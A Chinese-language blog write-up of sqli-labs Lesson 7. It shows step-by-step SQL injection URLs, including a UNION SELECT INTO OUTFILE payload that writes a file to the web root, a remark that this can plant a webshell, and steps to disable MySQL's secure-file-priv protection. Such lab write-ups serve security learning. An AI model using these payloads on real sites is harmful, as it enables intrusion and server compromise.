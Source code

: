```yaml
---
title: sqli-labs-lession 7 文件导入
date: 2018-09-25 21:58:44
tags: [sqli-labs]
categories: sql注入
---
```

# sqli-labs-lession 7 文件导入 #
---

## 登录界面 ##

![1](/img/sql/Lesson-7/1.png)

## 注入 ##

提示使用`Use outfile`,本关使用文件导入的方式进行注入。

### 处理参数 ###

日常测试

`http://10.60.250.151/sqlilabs/Less-7/?id=1'`

![2](/img/sql/Lesson-7/2.png)

返回报错信息

猜测是单引号闭合

`http://10.60.250.151/sqlilabs/Less-7/?id=1' or 1=1%23`

![3](/img/sql/Lesson-7/3.png)

构造失败,猜测有括号闭合,尝试一下:

`http://10.60.250.151/sqlilabs/Less-7/?id=1') or 1=1%23`

还是不行,再加一个括号闭合

`http://10.60.250.151/sqlilabs/Less-7/?id=1')) or 1=1%23`

![4](/img/sql/Lesson-7/4.png)

返回成功的页面。查看源码检验。

![5](/img/sql/Lesson-7/5.png)

果然如此。

### 利用文件导入 ###

和往常一样3列

`http://10.60.250.151/sqlilabs/Less-7/?id=1')) order by 3%23`

需要设置文件路径:(`\\`避免路径出错)

`C:\\phpStudy\\PHPTutorial\\WWW\\sqlilabs\\Less-7\\`

![6](/img/sql/Lesson-7/6.png)

`http://10.60.250.151/sqlilabs/Less-7/?id=1')) union select 1,2,3 into outfile "C:\\phpStudy\\PHPTutorial\\WWW\\sqlilabs\\Less-7\\1.txt"%23`

![10](/img/sql/Lesson-7/10.png)

虽然上面报错了,但是我的文件成功插入了。

![11](/img/sql/Lesson-7/11.png)

这个漏洞可以用来上传一句话木马。

### 可能遇到的错误 ###

#### secure-file-priv ####

如果文件导入不成功,确认Mysql配置文件`my.ini`下存在`secure-file-priv`

secure-file-priv参数是用来限制LOAD DATA, SELECT … OUTFILE, and LOAD_FILE()传到哪个指定目录的。

* secure_file_priv的值为null ，表示限制mysqld不允许导入|导出

* secure_file_priv的值为/tmp/ ，表示限制mysqld的导入|导出只能发生在/tmp/目录下

* secure_file_priv的值没有具体值时，表示不对mysqld的导入|导出做限制

使用命令`show global variables like '%secure%';`查看`secure-file-priv`参数的值：

![7](/img/sql/Lesson-7/7.png)

在phpMyadmin中查询命令也可以发现`secure-file-priv`拒绝执行语句

![8](/img/sql/Lesson-7/8.png)

修改`my.ini`添加`secure-file-priv`参数,没有填具体值表示不做限制(这样做其实很危险)

![9](/img/sql/Lesson-7/9.png)

<font color=red>保存好后重启MYSQL</font>


